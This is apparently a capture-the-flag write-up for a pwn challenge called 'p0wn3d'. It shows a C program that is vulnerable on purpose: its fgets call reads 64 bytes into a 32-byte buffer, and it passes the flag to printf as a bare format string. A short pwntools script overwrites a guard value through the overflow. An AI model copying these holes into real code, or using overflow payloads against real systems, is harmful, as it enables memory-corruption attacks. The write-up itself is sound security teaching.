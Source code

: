 # p0wn3d - Pwn

The challenge provides a C program with a buffer overflow vulnerability:

```c
#include <stdio.h>
#include <string.h>
#include <unistd.h>

struct __attribute__((__packed__)) data {
  char buf[32];
  int guard;
};

void ignore(void) {
  setvbuf(stdout, NULL, _IONBF, 0);
  setvbuf(stdin, NULL, _IONBF, 0);
}

void get_flag(void) {
  char flag[1024] = {0};
  FILE *fp = fopen("flag.txt", "r");
  fgets(flag, 1023, fp);
  printf(flag);
}

int main(void) {
  struct data first_words;
  ignore();

  printf("Hello little p0wn3r. Do you have any first words?\n");
  fgets(first_words.buf, 64, stdin);
  sleep(2);
  puts("Man that is so cute");
  sleep(2);
  puts("I remember last year people were screaming at the little p0wn3rs.. like AAAAAAAAAAAAAAAAAAAAAAAAAAAAA!");
  sleep(2);
  puts("Don't worry little one. I won't let them do that to you. I've set up a guard");

  if (first_words.guard == 0x42424242) {
    get_flag();
  }

  return 0;
}
```


The data struct has a 32 bytes buffer `buf` and a 4 bytes `guard`. The `fgets` call reads 64 bytes into `buf`, overflowing into `guard`.
To get the flag, we need to overwrite `guard` with `0x42424242`.

## solve.py:

```py
from pwn import *

payload = b'A' * 32 + p32(0x42424242)

r = remote('p0wn3d.kctf-453514-codelab.kctf.cloud', 1337)
r.recvuntil(b"Hello little p0wn3r. Do you have any first words?\n")
r.sendline(payload)
print(r.recvall().decode())
```
